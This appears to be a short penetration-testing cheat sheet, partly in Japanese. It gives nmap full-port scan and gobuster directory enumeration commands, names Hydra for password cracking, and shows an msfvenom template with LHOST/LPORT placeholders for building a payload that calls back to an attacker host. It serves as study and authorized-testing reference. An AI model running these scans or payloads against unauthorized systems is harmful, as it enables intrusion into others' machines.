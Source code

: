# Penetration testing

## Scan
* nmap  
all port, TCP Connect, OS and Service Version  
```nmap -p- -sT -A XXX.XXX.XXX.XXX```

* gobuster  
ディレクトリ/ファイル等の列挙(dirbのwordlist使用)  
```gobuster dir -v -u http://hogehoge -w /usr/share/wordlists/dirb/common.txt```

## Password  
* Hydra  
Logon cracker  

## Payload  
* msfvenom  
```msfvenom -p PAYLOAD LHOST=XX.XX.XX.XX LPORT=XXXX -f FILETYPE -o OUTPUT.FILETYPE```

